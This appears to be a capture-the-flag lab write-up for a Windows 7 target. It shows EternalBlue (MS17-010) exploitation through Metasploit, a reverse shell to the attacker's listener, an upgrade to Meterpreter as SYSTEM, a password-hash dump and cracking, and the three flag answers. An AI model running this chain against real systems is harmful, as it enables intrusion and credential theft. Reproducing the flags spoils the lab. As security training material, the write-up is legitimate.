


## Recon/OSINT

Attacker IP: 10.2.4.35

Target IP ($IP): 10.10.234.217

## Enumeration

### Nmap Scan
Enumerate open ports and services running on the target machine.

```text
sudo nmap -sC -SV -oN nmap_initial.output $IP
```



Let's run the `vuln` script to see if the target is vulnerable to any commonly known vulnerabilities.

```text
sudo nmap -sV -oN nmap_vuln.output --script vuln $IP
```



Looks like the target it vulnerable to `ms17-010: RCE vulnerability in Microsoft SMBv1 servers (Eternal Blue)`

## Exploitation
Let's start up Metasploit using the `msfconsole` command and exploit the vulnerability to gain a foothold on the target. Search for exploits related to `ms17-010`.

```text
msf6 > search ms17-010

Matching Modules
================

   #  Name                                      Disclosure Date  Rank     Check  Description
   -  ----                                      ---------------  ----     -----  -----------
   0  exploit/windows/smb/ms17_010_eternalblue  2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   1  exploit/windows/smb/ms17_010_psexec       2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   2  auxiliary/admin/smb/ms17_010_command      2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
   3  auxiliary/scanner/smb/smb_ms17_010                         normal   No     MS17-010 SMB RCE Detection
   4  exploit/windows/smb/smb_doublepulsar_rce  2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution


Interact with a module by name or index. For example info 4, use 4 or use exploit/windows/smb/smb_doublepulsar_rce

msf6 >
```

Let's get some more information on the `exploit/windows/smb/ms17_010_eternalblue` module.

```text
msf6 > info 0

       Name: MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
     Module: exploit/windows/smb/ms17_010_eternalblue
   Platform: Windows
       Arch: x64
 Privileged: Yes
    License: Metasploit Framework License (BSD)
       Rank: Average
  Disclosed: 2017-03-14

Provided by:
  Equation Group
  Shadow Brokers
  sleepya
  Sean Dillon <sean.dillon@risksense.com>
  Dylan Davis <dylan.davis@risksense.com>
  thelightcosine
  wvu <wvu@metasploit.com>
  agalway-r7
  cdelafuente-r7
  cdelafuente-r7
  agalway-r7

Available targets:
  Id  Name
  --  ----
  0   Automatic Target
  1   Windows 7
  2   Windows Embedded Standard 7
  3   Windows Server 2008 R2
  4   Windows 8
  5   Windows 8.1
  6   Windows Server 2012
  7   Windows 10 Pro
  8   Windows 10 Enterprise Evaluation

Check supported:
  Yes

Basic options:
  Name           Current Setting  Required  Description
  ----           ---------------  --------  -----------
  RHOSTS                          yes       The target host(s), see https://github.com/rapid7/metasploit-framework
                                            /wiki/Using-Metasploit
  RPORT          445              yes       The target port (TCP)
  SMBDomain                       no        (Optional) The Windows domain to use for authentication. Only affects
                                            Windows Server 2008 R2, Windows 7, Windows Embedded Standard 7 target
                                            machines.
  SMBPass                         no        (Optional) The password for the specified username
  SMBUser                         no        (Optional) The username to authenticate as
  VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target. Only affects Wind
                                            ows Server 2008 R2, Windows 7, Windows Embedded Standard 7 target mach
                                            ines.
  VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target. Only affects Windows Server
                                             2008 R2, Windows 7, Windows Embedded Standard 7 target machines.

Payload information:
  Space: 2000

Description:
  This module is a port of the Equation Group ETERNALBLUE exploit, 
  part of the FuzzBunch toolkit released by Shadow Brokers. There is a 
  buffer overflow memmove operation in Srv!SrvOs2FeaToNt. The size is 
  calculated in Srv!SrvOs2FeaListSizeToNt, with mathematical error 
  where a DWORD is subtracted into a WORD. The kernel pool is groomed 
  so that overflow is well laid-out to overwrite an SMBv1 buffer. 
  Actual RIP hijack is later completed in 
  srvnet!SrvNetWskReceiveComplete. This exploit, like the original may 
  not trigger 100% of the time, and should be run continuously until 
  triggered. It seems like the pool will get hot streaks and need a 
  cool down period before the shells rain in again. The module will 
  attempt to use Anonymous login, by default, to authenticate to 
  perform the exploit. If the user supplies credentials in the 
  SMBUser, SMBPass, and SMBDomain options it will use those instead. 
  On some systems, this module may cause system instability and 
  crashes, such as a BSOD or a reboot. This may be more likely with 
  some payloads.

References:
  https://docs.microsoft.com/en-us/security-updates/SecurityBulletins/2017/MS17-010
  https://nvd.nist.gov/vuln/detail/CVE-2017-0143
  https://nvd.nist.gov/vuln/detail/CVE-2017-0144
  https://nvd.nist.gov/vuln/detail/CVE-2017-0145
  https://nvd.nist.gov/vuln/detail/CVE-2017-0146
  https://nvd.nist.gov/vuln/detail/CVE-2017-0147
  https://nvd.nist.gov/vuln/detail/CVE-2017-0148
  https://github.com/RiskSense-Ops/MS17-010
  https://risksense.com/wp-content/uploads/2018/05/White-Paper_Eternal-Blue.pdf
  https://www.exploit-db.com/exploits/42030

Also known as:
  ETERNALBLUE


View the full module info with the info -d command.

msf6 > 
```

Let's go ahead and use this module and set the RHOSTS and LHOST options.

```text
msf6 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS 10.10.234.217
RHOSTS => 10.10.234.217
msf6 exploit(windows/smb/ms17_010_eternalblue) > set LHOST 10.2.4.35
LHOST => 10.2.4.35
msf6 exploit(windows/smb/ms17_010_eternalblue) > show options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS         10.10.234.217    yes       The target host(s), see https://github.com/rapid7/metasploit-framewor
                                             k/wiki/Using-Metasploit
   RPORT          445              yes       The target port (TCP)
   SMBDomain                       no        (Optional) The Windows domain to use for authentication. Only affects
                                              Windows Server 2008 R2, Windows 7, Windows Embedded Standard 7 targe
                                             t machines.
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target. Only affects Win
                                             dows Server 2008 R2, Windows 7, Windows Embedded Standard 7 target ma
                                             chines.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target. Only affects Windows Serve
                                             r 2008 R2, Windows 7, Windows Embedded Standard 7 target machines.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.2.4.35        yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target


View the full module info with the info, or info -d command.

msf6 exploit(windows/smb/ms17_010_eternalblue) > 
```

Set the payload as reverse_tcp and run the exploit.

```text
msf6 exploit(windows/smb/ms17_010_eternalblue) > set payload windows/x64/shell/reverse_tcp
payload => windows/x64/shell/reverse_tcp
msf6 exploit(windows/smb/ms17_010_eternalblue) > exploit

[*] Started reverse TCP handler on 10.2.4.35:4444 
[*] 10.10.234.217:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.234.217:445     - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.234.217:445     - Scanned 1 of 1 hosts (100% complete)
[+] 10.10.234.217:445 - The target is vulnerable.
[*] 10.10.234.217:445 - Connecting to target for exploitation.
[+] 10.10.234.217:445 - Connection established for exploitation.
[+] 10.10.234.217:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.10.234.217:445 - CORE raw buffer dump (42 bytes)
[*] 10.10.234.217:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
[*] 10.10.234.217:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76  sional 7601 Serv
[*] 10.10.234.217:445 - 0x00000020  69 63 65 20 50 61 63 6b 20 31                    ice Pack 1      
[+] 10.10.234.217:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.10.234.217:445 - Trying exploit with 12 Groom Allocations.
[*] 10.10.234.217:445 - Sending all but last fragment of exploit packet
[*] 10.10.234.217:445 - Starting non-paged pool grooming
[+] 10.10.234.217:445 - Sending SMBv2 buffers
[+] 10.10.234.217:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.10.234.217:445 - Sending final SMBv2 buffers.
[*] 10.10.234.217:445 - Sending last fragment of exploit packet!
[*] 10.10.234.217:445 - Receiving response from exploit packet
[+] 10.10.234.217:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.10.234.217:445 - Sending egg to corrupted connection.
[*] 10.10.234.217:445 - Triggering free of corrupted buffer.
[*] Sending stage (336 bytes) to 10.10.234.217
[*] Command shell session 1 opened (10.2.4.35:4444 -> 10.10.234.217:49230) at 2023-01-20 13:34:57 -0700
[+] 10.10.234.217:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.234.217:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.234.217:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=


Shell Banner:
Microsoft Windows [Version 6.1.7601]
-----
          

C:\Windows\system32>
```

Looks like we have an initial foothold.

## Privilege Escalation
Background the current shell (++ctrl+z++) and upgrade our shell to a Meterpreter shell.

```text
msf6 exploit(windows/smb/ms17_010_eternalblue) > show sessions

Active sessions
===============

  Id  Name  Type               Information                               Connection
  --  ----  ----               -----------                               ----------
  2         shell x64/windows  Shell Banner: Microsoft Windows [Version  10.2.4.35:4444 -> 10.10.234.217:49242 (10
                                6.1.7601] -----                          .10.234.217)

msf6 exploit(windows/smb/ms17_010_eternalblue) > search shell_to_meterpreter

Matching Modules
================

   #  Name                                    Disclosure Date  Rank    Check  Description
   -  ----                                    ---------------  ----    -----  -----------
   0  post/multi/manage/shell_to_meterpreter                   normal  No     Shell to Meterpreter Upgrade


Interact with a module by name or index. For example info 0, use 0 or use post/multi/manage/shell_to_meterpreter

msf6 exploit(windows/smb/ms17_010_eternalblue) > use 0
msf6 post(multi/manage/shell_to_meterpreter) > show options

Module options (post/multi/manage/shell_to_meterpreter):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   HANDLER  true             yes       Start an exploit/multi/handler to receive the connection
   LHOST                     no        IP of host that will receive the connection from the payload (Will try to a
                                       uto detect).
   LPORT    4433             yes       Port for payload to connect to.
   SESSION                   yes       The session to run this module on


View the full module info with the info, or info -d command.

msf6 post(multi/manage/shell_to_meterpreter) > set SESSION 2
SESSION => 2
msf6 post(multi/manage/shell_to_meterpreter) > show options

Module options (post/multi/manage/shell_to_meterpreter):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   HANDLER  true             yes       Start an exploit/multi/handler to receive the connection
   LHOST                     no        IP of host that will receive the connection from the payload (Will try to a
                                       uto detect).
   LPORT    4433             yes       Port for payload to connect to.
   SESSION  2                yes       The session to run this module on


View the full module info with the info, or info -d command.

msf6 post(multi/manage/shell_to_meterpreter) > exploit

[*] Upgrading session ID: 2
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 10.2.4.35:4433 
[*] Post module execution completed
msf6 post(multi/manage/shell_to_meterpreter) > 
[*] Sending stage (200774 bytes) to 10.10.234.217
[*] Meterpreter session 3 opened (10.2.4.35:4433 -> 10.10.234.217:49249) at 2023-01-20 13:50:44 -0700
[*] Stopping exploit/multi/handler

msf6 post(multi/manage/shell_to_meterpreter) > show sessions

Active sessions
===============

  Id  Name  Type                     Information                            Connection
  --  ----  ----                     -----------                            ----------
  2         shell x64/windows        Shell Banner: Microsoft Windows [Vers  10.2.4.35:4444 -> 10.10.234.217:49242
                                     ion 6.1.7601] -----                    (10.10.234.217)
  3         meterpreter x64/windows  NT AUTHORITY\SYSTEM @ JON-PC           10.2.4.35:4433 -> 10.10.234.217:49249
                                                                            (10.10.234.217)

msf6 post(multi/manage/shell_to_meterpreter) > sessions -i -3
[-] Invalid session identifier: -3
msf6 post(multi/manage/shell_to_meterpreter) > sessions -i 3
[*] Starting interaction with 3...

meterpreter > shell
Process 2188 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>
```

Looks like we are NT AUTHORITY\SYSTEM.

List the running processes using the `ps` command.

```text
C:\Windows\system32>exit
exit
meterpreter > ps

Process List
============

 PID   PPID  Name                Arch  Session  User                          Path
 ---   ----  ----                ----  -------  ----                          ----
 0     0     [System Process]
 4     0     System              x64   0
 416   4     smss.exe            x64   0        NT AUTHORITY\SYSTEM           \SystemRoot\System32\smss.exe
 428   712   svchost.exe         x64   0        NT AUTHORITY\SYSTEM
 488   712   svchost.exe         x64   0        NT AUTHORITY\SYSTEM
 564   556   csrss.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\csrss.exe
 612   556   wininit.exe         x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\wininit.exe
 624   604   csrss.exe           x64   1        NT AUTHORITY\SYSTEM           C:\Windows\system32\csrss.exe
 664   604   winlogon.exe        x64   1        NT AUTHORITY\SYSTEM           C:\Windows\system32\winlogon.exe
 712   612   services.exe        x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\services.exe
 720   612   lsass.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\lsass.exe
 728   612   lsm.exe             x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\lsm.exe
 836   712   svchost.exe         x64   0        NT AUTHORITY\SYSTEM
 904   712   svchost.exe         x64   0        NT AUTHORITY\NETWORK SERVICE
 952   712   svchost.exe         x64   0        NT AUTHORITY\LOCAL SERVICE
 1020  664   LogonUI.exe         x64   1        NT AUTHORITY\SYSTEM           C:\Windows\system32\LogonUI.exe
 1088  712   svchost.exe         x64   0        NT AUTHORITY\LOCAL SERVICE
 1160  2924  cmd.exe             x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\cmd.exe
 1192  712   svchost.exe         x64   0        NT AUTHORITY\NETWORK SERVICE
 1352  712   svchost.exe         x64   0        NT AUTHORITY\LOCAL SERVICE
 1416  712   amazon-ssm-agent.e  x64   0        NT AUTHORITY\SYSTEM           C:\Program Files\Amazon\SSM\amazon-s
             xe                                                               sm-agent.exe
 1488  712   LiteAgent.exe       x64   0        NT AUTHORITY\SYSTEM           C:\Program Files\Amazon\XenTools\Lit
                                                                              eAgent.exe
 1628  712   Ec2Config.exe       x64   0        NT AUTHORITY\SYSTEM           C:\Program Files\Amazon\Ec2ConfigSer
                                                                              vice\Ec2Config.exe
 1932  712   svchost.exe         x64   0        NT AUTHORITY\NETWORK SERVICE
 2068  712   TrustedInstaller.e  x64   0        NT AUTHORITY\SYSTEM
             xe
 2080  836   WmiPrvSE.exe
 2200  564   conhost.exe         x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\conhost.exe
 2256  712   svchost.exe         x64   0        NT AUTHORITY\LOCAL SERVICE
 2380  564   conhost.exe         x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\conhost.exe
 2444  712   sppsvc.exe          x64   0        NT AUTHORITY\NETWORK SERVICE
 2592  712   vds.exe             x64   0        NT AUTHORITY\SYSTEM
 2684  712   svchost.exe         x64   0        NT AUTHORITY\SYSTEM
 2736  712   SearchIndexer.exe   x64   0        NT AUTHORITY\SYSTEM
 2876  2400  powershell.exe      x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\WindowsPowerShel
                                                                              l\v1.0\powershell.exe
 2924  712   spoolsv.exe         x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\spoolsv.exe

meterpreter >
```

Let's migrate to PID 2924 (spoolsv.exe)

```text
meterpreter > migrate 2924
[*] Migrating from 2876 to 2924...
/usr/share/metasploit-framework/lib/rex/post/meterpreter/packet.rb:998: warning: Exception in finalizer #<Proc:0x00007f099d3d08d0 /usr/share/metasploit-framework/lib/rex/post/meterpreter/extensions/stdapi/sys/process.rb:339>
/usr/share/metasploit-framework/lib/rex/post/meterpreter/packet_dispatcher.rb:147:in `synchronize': can't be called from trap context (ThreadError)
        from /usr/share/metasploit-framework/lib/rex/post/meterpreter/packet_dispatcher.rb:147:in `send_packet'
        from /usr/share/metasploit-framework/lib/rex/post/meterpreter/packet_dispatcher.rb:220:in `send_packet_wait_response'
        from /usr/share/metasploit-framework/lib/rex/post/meterpreter/packet_dispatcher.rb:176:in `send_request'
        from /usr/share/metasploit-framework/lib/rex/post/meterpreter/extensions/stdapi/sys/process.rb:362:in `close'
        from /usr/share/metasploit-framework/lib/rex/post/meterpreter/extensions/stdapi/sys/process.rb:339:in `block in finalize'
        from /usr/share/metasploit-framework/lib/rex/post/meterpreter/packet.rb:998:in `chr'
        from /usr/share/metasploit-framework/lib/rex/post/meterpreter/packet.rb:998:in `block in xor_bytes'
        from /usr/share/metasploit-framework/lib/rex/post/meterpreter/packet.rb:997:in `each_byte'
        from /usr/share/metasploit-framework/lib/rex/post/meterpreter/packet.rb:997:in `xor_bytes'
        from /usr/share/metasploit-framework/lib/rex/post/meterpreter/packet.rb:952:in `to_r'
        from /usr/share/metasploit-framework/lib/rex/post/meterpreter/packet_dispatcher.rb:137:in `send_packet'
        from /usr/share/metasploit-framework/lib/rex/post/meterpreter/packet_dispatcher.rb:220:in `send_packet_wait_response'
        from /usr/share/metasploit-framework/lib/rex/post/meterpreter/packet_dispatcher.rb:176:in `send_request'
        from /usr/share/metasploit-framework/lib/rex/post/meterpreter/client_core.rb:654:in `migrate'
        from /usr/share/metasploit-framework/lib/rex/post/meterpreter/ui/console/command_dispatcher/core.rb:1254:in `cmd_migrate'
        from /usr/share/metasploit-framework/lib/rex/ui/text/dispatcher_shell.rb:581:in `run_command'
        from /usr/share/metasploit-framework/lib/rex/post/meterpreter/ui/console.rb:102:in `run_command'
        from /usr/share/metasploit-framework/lib/rex/ui/text/dispatcher_shell.rb:530:in `block in run_single'
        from /usr/share/metasploit-framework/lib/rex/ui/text/dispatcher_shell.rb:524:in `each'
        from /usr/share/metasploit-framework/lib/rex/ui/text/dispatcher_shell.rb:524:in `run_single'
        from /usr/share/metasploit-framework/lib/rex/post/meterpreter/ui/console.rb:64:in `block in interact'
        from /usr/share/metasploit-framework/lib/rex/ui/text/shell.rb:157:in `run'
        from /usr/share/metasploit-framework/lib/rex/post/meterpreter/ui/console.rb:62:in `interact'
        from /usr/share/metasploit-framework/lib/msf/base/sessions/meterpreter.rb:565:in `_interact'
        from /usr/share/metasploit-framework/lib/rex/ui/interactive.rb:53:in `interact'
        from /usr/share/metasploit-framework/lib/msf/ui/console/command_dispatcher/core.rb:1682:in `cmd_sessions'
        from /usr/share/metasploit-framework/lib/rex/ui/text/dispatcher_shell.rb:581:in `run_command'
        from /usr/share/metasploit-framework/lib/rex/ui/text/dispatcher_shell.rb:530:in `block in run_single'
        from /usr/share/metasploit-framework/lib/rex/ui/text/dispatcher_shell.rb:524:in `each'
        from /usr/share/metasploit-framework/lib/rex/ui/text/dispatcher_shell.rb:524:in `run_single'
        from /usr/share/metasploit-framework/lib/rex/ui/text/shell.rb:162:in `run'
        from /usr/share/metasploit-framework/lib/metasploit/framework/command/console.rb:48:in `start'
        from /usr/share/metasploit-framework/lib/metasploit/framework/command/base.rb:82:in `start'
        from /usr/bin/msfconsole:23:in `<main>'
/usr/share/metasploit-framework/lib/rex/post/meterpreter/packet.rb:998: warning: Exception in finalizer #<Proc:0x00007f099d178a10 /usr/share/metasploit-framework/lib/rex/post/meterpreter/extensions/stdapi/sys/process.rb:339>
/usr/share/metasploit-framework/lib/rex/post/meterpreter/packet_dispatcher.rb:147:in `synchronize': can't be called from trap context (ThreadError)
        from /usr/share/metasploit-framework/lib/rex/post/meterpreter/packet_dispatcher.rb:147:in `send_packet'
        from /usr/share/metasploit-framework/lib/rex/post/meterpreter/packet_dispatcher.rb:220:in `send_packet_wait_response'
        from /usr/share/metasploit-framework/lib/rex/post/meterpreter/packet_dispatcher.rb:176:in `send_request'
        from /usr/share/metasploit-framework/lib/rex/post/meterpreter/extensions/stdapi/sys/process.rb:362:in `close'
        from /usr/share/metasploit-framework/lib/rex/post/meterpreter/extensions/stdapi/sys/process.rb:339:in `block in finalize'
        from /usr/share/metasploit-framework/lib/rex/post/meterpreter/packet.rb:998:in `chr'
        from /usr/share/metasploit-framework/lib/rex/post/meterpreter/packet.rb:998:in `block in xor_bytes'
        from /usr/share/metasploit-framework/lib/rex/post/meterpreter/packet.rb:997:in `each_byte'
        from /usr/share/metasploit-framework/lib/rex/post/meterpreter/packet.rb:997:in `xor_bytes'
        from /usr/share/metasploit-framework/lib/rex/post/meterpreter/packet.rb:952:in `to_r'
        from /usr/share/metasploit-framework/lib/rex/post/meterpreter/packet_dispatcher.rb:137:in `send_packet'
        from /usr/share/metasploit-framework/lib/rex/post/meterpreter/packet_dispatcher.rb:220:in `send_packet_wait_response'
        from /usr/share/metasploit-framework/lib/rex/post/meterpreter/client_core.rb:293:in `load_library'
        from /usr/share/metasploit-framework/lib/rex/post/meterpreter/client_core.rb:378:in `use'
        from /usr/share/metasploit-framework/lib/rex/post/meterpreter/client_core.rb:705:in `block in migrate'
        from /usr/share/metasploit-framework/lib/rex/post/meterpreter/client_core.rb:704:in `each'
        from /usr/share/metasploit-framework/lib/rex/post/meterpreter/client_core.rb:704:in `migrate'
        from /usr/share/metasploit-framework/lib/rex/post/meterpreter/ui/console/command_dispatcher/core.rb:1254:in `cmd_migrate'
        from /usr/share/metasploit-framework/lib/rex/ui/text/dispatcher_shell.rb:581:in `run_command'
        from /usr/share/metasploit-framework/lib/rex/post/meterpreter/ui/console.rb:102:in `run_command'
        from /usr/share/metasploit-framework/lib/rex/ui/text/dispatcher_shell.rb:530:in `block in run_single'
        from /usr/share/metasploit-framework/lib/rex/ui/text/dispatcher_shell.rb:524:in `each'
        from /usr/share/metasploit-framework/lib/rex/ui/text/dispatcher_shell.rb:524:in `run_single'
        from /usr/share/metasploit-framework/lib/rex/post/meterpreter/ui/console.rb:64:in `block in interact'
        from /usr/share/metasploit-framework/lib/rex/ui/text/shell.rb:157:in `run'
        from /usr/share/metasploit-framework/lib/rex/post/meterpreter/ui/console.rb:62:in `interact'
        from /usr/share/metasploit-framework/lib/msf/base/sessions/meterpreter.rb:565:in `_interact'
        from /usr/share/metasploit-framework/lib/rex/ui/interactive.rb:53:in `interact'
        from /usr/share/metasploit-framework/lib/msf/ui/console/command_dispatcher/core.rb:1682:in `cmd_sessions'
        from /usr/share/metasploit-framework/lib/rex/ui/text/dispatcher_shell.rb:581:in `run_command'
        from /usr/share/metasploit-framework/lib/rex/ui/text/dispatcher_shell.rb:530:in `block in run_single'
        from /usr/share/metasploit-framework/lib/rex/ui/text/dispatcher_shell.rb:524:in `each'
        from /usr/share/metasploit-framework/lib/rex/ui/text/dispatcher_shell.rb:524:in `run_single'
        from /usr/share/metasploit-framework/lib/rex/ui/text/shell.rb:162:in `run'
        from /usr/share/metasploit-framework/lib/metasploit/framework/command/console.rb:48:in `start'
        from /usr/share/metasploit-framework/lib/metasploit/framework/command/base.rb:82:in `start'
        from /usr/bin/msfconsole:23:in `<main>'
[*] Migration completed successfully.
meterpreter > 
```

Let's dump the password hashes using command `hashdump` in meterpreter.

```text
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
meterpreter >
```

We can use `John the Ripper` to crack the hash.

```text
echo "Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::" > hash2crack.txt
```

```text
john --wordlist=/usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt  --format=NT hash2crack.txt
Using default input encoding: UTF-8
Loaded 1 password hash (NT [MD4 128/128 AVX 4x3])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
alqfna22         (Jon)     
1g 0:00:00:03 DONE (2023-01-20 14:15) 0.3236g/s 3301Kp/s 3301Kc/s 3301KC/s alqueva1968..alpus
Use the "--show --format=NT" options to display all of the cracked passwords reliably
Session completed.
```

Credentials Found: `Jon:alqfna22`

## Post-Exploitation

First flag is in `C:\`.

```text
C:\>dir  
dir
 Volume in drive C has no label.
 Volume Serial Number is E611-0B66

 Directory of C:\

03/17/2019  01:27 PM                24 flag1.txt
07/13/2009  09:20 PM    <DIR>          PerfLogs
04/12/2011  02:28 AM    <DIR>          Program Files
03/17/2019  04:28 PM    <DIR>          Program Files (x86)
12/12/2018  09:13 PM    <DIR>          Users
03/17/2019  04:36 PM    <DIR>          Windows
               1 File(s)             24 bytes
               5 Dir(s)  20,398,546,944 bytes free

C:\>type flag1.txt
type flag1.txt
flag{access_the_machine}
C:\>
```

Flag 2 is in the `C:\Windows\System32\config` folder.

```text
C:\Windows\System32\config>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is E611-0B66

 Directory of C:\Windows\System32\config

01/20/2023  01:42 PM    <DIR>          .
01/20/2023  01:42 PM    <DIR>          ..
12/12/2018  05:00 PM            28,672 BCD-Template
01/20/2023  01:51 PM        18,087,936 COMPONENTS
01/20/2023  03:17 PM           262,144 DEFAULT
03/17/2019  01:32 PM                34 flag2.txt
07/13/2009  08:34 PM    <DIR>          Journal
01/20/2023  02:11 PM    <DIR>          RegBack
03/17/2019  02:05 PM           262,144 SAM
01/20/2023  01:51 PM           262,144 SECURITY
01/20/2023  03:17 PM        40,632,320 SOFTWARE
01/20/2023  03:23 PM        12,582,912 SYSTEM
11/20/2010  08:41 PM    <DIR>          systemprofile
12/12/2018  05:03 PM    <DIR>          TxR
               8 File(s)     72,118,306 bytes
               6 Dir(s)  20,398,546,944 bytes free

C:\Windows\System32\config>type flag2.txt
type flag2.txt
flag{sam_database_elevated_access}
C:\Windows\System32\config>
```

Flag 3 is in Documents folder for Jon.

```text
C:\Users\Jon\Documents>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is E611-0B66

 Directory of C:\Users\Jon\Documents

12/12/2018  09:49 PM    <DIR>          .
12/12/2018  09:49 PM    <DIR>          ..
03/17/2019  01:26 PM                37 flag3.txt
               1 File(s)             37 bytes
               2 Dir(s)  20,398,546,944 bytes free

C:\Users\Jon\Documents>type flag3.txt
type flag3.txt
flag{admin_documents_can_be_valuable}
C:\Users\Jon\Documents>
```

